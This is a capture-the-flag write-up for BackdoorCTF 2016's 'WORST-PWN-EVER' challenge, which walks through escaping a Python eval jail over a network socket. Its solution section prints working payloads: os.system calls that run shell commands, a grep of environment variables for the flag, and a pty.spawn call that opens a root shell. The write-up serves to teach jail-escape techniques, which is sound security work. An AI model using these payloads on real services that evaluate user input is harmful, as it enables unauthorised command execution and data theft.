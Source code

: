 Author: michals (Michał Soczewka)

WORST-PWN-EVER
==============

CTF: BackdoorCTF 2016  
Link: https://backdoor.sdslabs.co/challenges/WORST-PWN-EVER  
Author: Ashish Chaudhary  
Points: 100  
Category: pwn, Python


Description
-----------

>   tocttou is an enviornmentalist. But some say he has a vicious motive
>   and he uses nature to hide his dark side. We found a weird shell on
>   his amazon (pun inteded) web services. Can you tell us what is he
>   upto?
>
>   Tip: he might shut down the machine if he notices you - and he will
>   (maybe in 45 seconds).
>
>   Access: nc hack.bckdr.in 9008


tl;dr
-----

We have been given an Python eval jail over a TCP socket.
The solution is to retreive an environment variable using one
of the classic builtin hacks, for example:
```python
__import__('os').system('env|grep -iE ".*f.*l.*a.*g"')
```


Solution
--------

After establishing a connection to the given server a prompt is returned.
Let's try some random fuzzing.

First let's see what happens when we press `CTRL+D`
right away:

```
> EOFError: EOF when reading a line
--> WHAT ARE YOU DOING HERE? >-[
```
Let's check if it is a system shell:
```
> echo x
SyntaxError: unexpected EOF while parsing (<string>, line 1)
--> WHAT ARE YOU DOING HERE? >-[
```
No, it's definitely not a system shell. It looks like a Python interpreter.
Let's check this theory then:
```
> 1+1
```
No response, no error - it looks promising.
Let's check then if we can see some Python errors:
```
> 1+'x'*[]
TypeError: can't multiply sequence by non-int of type 'list'
```
Bingo! If it really is an old `eval` jail, then
we could escape using a classic builtin hacks.

Let's check that:
```
> str(__import__('os').system('echo x'))
x
```
 Got it! Let's get a shell and start looking around:
```
> __import__('pty').spawn('/bin/sh')
sh-4.3#
```

After looking through available files for a few minutes
and finding nothing useful, we noticed the task description
contains a clue - the word *environmentalist*
suggests checking environment variables.

```
sh-4.3# env
HOSTNAME=43523caef67d
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_F_L_A_G_='xxxxxxxxxxxxxxx CENSORED xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
PWD=/scripts
SHLVL=3
HOME=/root
_=/usr/bin/env
```
